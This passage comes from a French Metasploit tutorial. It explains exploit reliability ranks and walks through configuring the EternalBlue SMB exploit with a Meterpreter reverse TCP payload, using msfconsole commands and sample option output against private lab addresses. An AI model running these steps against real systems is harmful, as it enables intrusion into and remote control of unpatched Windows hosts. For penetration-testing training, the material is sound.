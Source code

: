 ### Comprendre le classement (Rank) des exploits

Metasploit classe les exploits selon leur fiabilité :

| Rank | Description | Recommandation |
|------|-------------|----------------|
| Excellent | Très fiable, ne plante jamais la cible | Prioritaire |
| Great | Fiable dans la plupart des cas | Recommandé |
| Good | Fiable mais peut échouer occasionnellement | À considérer |
| Normal | Fonctionne dans des conditions normales | À tester avec précaution |
| Average | Fonctionne dans des conditions spécifiques | À tester en dernier recours |
| Low | Peu fiable ou très spécifique | À éviter sauf si nécessaire |
| Manual | Nécessite une intervention manuelle | Pour utilisateurs expérimentés |

```
# Recherche d'exploits avec un rang élevé
msf6 > search rank:excellent type:exploit smb
```

> **POURQUOI ?**  
> Privilégiez toujours les exploits avec un rang élevé (Excellent, Great) pour minimiser les risques d'impact négatif sur les systèmes cibles. Les exploits de rang inférieur peuvent être utiles mais nécessitent plus de précautions.

## Configuration des modules d'exploitation

### Sélection et configuration d'un module

```
# Sélection d'un module d'exploitation
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# Affichage des options requises
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

# Configuration des options de base
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50
```

Exemple de sortie de `show options` :
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.1.100    yes       The target host(s)
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.50     yes       The listen address (an interface may be specified)
```